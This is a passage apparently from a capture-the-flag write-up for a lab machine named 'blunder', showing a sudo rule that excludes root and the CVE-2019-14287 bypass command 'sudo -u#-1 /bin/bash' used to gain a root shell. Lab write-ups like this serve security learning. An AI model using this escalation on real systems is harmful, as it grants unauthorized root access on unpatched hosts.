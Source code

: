 User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
Now escalation for sudo bash is allowed for all user except root
Now I remember we had done something like this but I didn't remember what we didi exactly so I googled
and got this https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability
Now i remembered we have to run sudo with user id -1
```sudo -u#-1 /bin/bash```
and we are root 
